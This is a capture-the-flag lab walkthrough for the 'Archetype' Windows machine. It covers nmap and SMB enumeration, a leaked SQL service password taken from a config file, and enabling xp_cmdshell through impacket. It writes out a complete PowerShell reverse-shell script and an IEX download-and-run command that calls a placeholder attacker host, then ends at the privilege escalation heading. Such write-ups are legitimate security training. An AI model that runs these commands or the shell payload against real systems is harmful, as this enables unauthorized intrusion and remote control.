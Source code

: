 # Archetype
AUTHOR: egre55
## Discription
Difficulty: Very Easy

OS: Windows
## Walkthrough
### 1. Enumeration
First, take some scanning on host:
```bash
$ nmap -sC -sV 10.10.10.27
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 10:44 +07
Nmap scan report for 10.10.10.27
Host is up (1.3s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1234/tcp open  hotline?
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-09-12T02:39:54
|_Not valid after:  2051-09-12T02:39:54
|_ssl-date: 2021-09-12T04:10:04+00:00; +24m51s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows                                                
Host script results:
|_clock-skew: mean: 1h48m51s, deviation: 3h07m51s, median: 24m50s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-11T21:09:44-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-12T04:09:45
|_  start_date: N/A
```
As we can see, there are 5 open ports 135, 139, 445, 1234, 1433 and we also got some additional information such as domain, OS, Server version,...

Do a bit research about these ports and I found that:
- 135: MS-RPC endpoint mapper
- 139: NetBIOS Session Service
- 445: SMB protocol *(further reading here [NetBIOS and SMB Penetration Testing on Windows](https://www.hackingarticles.in/netbios-and-smb-penetration-testing-on-windows/))*
- 1234: I still have no idea what is this port used for :v *([TCP 1234 - Port Protocol Information and Warning!](https://www.auditmypc.com/tcp-port-1234.asp))*
- 1433: MS-SQL Server

Access SMB
```bash
$ smbclient -N -L \\\\10.10.10.27\\

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available

$ smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 19:20:57 2020
  ..                                  D        0  Mon Jan 20 19:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 19:23:02 2020

                10328063 blocks of size 4096. 8260225 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit
```

Take a look at downloaded file
```bash
$ cat prod.dtsConfig 
<DTSConfiguration>
	<DTSConfigurationHeading>
		<DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
	</DTSConfigurationHeading>
	<Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
		<ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
	</Configuration>
</DTSConfiguration>
```

[DTSCONFIG File Extension](https://fileinfo.com/extension/dtsconfig)

Get credential
```sql_svc:M3g4c0rp123```

### 2. Foothold
Access SQL Server
```bash
$ mssqlclient.py -p 1433 ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

Explore SQL
```bash
SQL> enable_xp_cmdshell
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
archetype\sql_svc

SQL> select is_srvrolemember ('sysadmin');

-----------
          1		==> User has system admin privilege!

SQL> xp_cmdshell "systeminfo"
...

SQL> 
```

Prepare reverse shell script
[Shells - Windows](https://book.hacktricks.xyz/shells/shells/windows)
Save this as shell.ps1
```bash
$client = New-Object System.Net.Sockets.TCPClient("<attacker_ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Get known .ps1 file
[PS1 File Extension](https://fileinfo.com/extension/ps1)
[Differences between commands run in .bat file and powershell.exe](https://stackoverflow.com/questions/48215483/differences-between-commands-run-in-bat-file-and-powershell-exe)

Open http server for SQL Server to get the script
```bash
$ python3 -m http.server 8080
```

Open listening port for catching reverse shell
```bash
$ nc -lnvp <port>
```

Execute reverse shell from SQL Server
```bash
SQL> xp_cmdshell "powershell "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>:8080/shell.ps1')""
```

### 3. Privilege Escalation
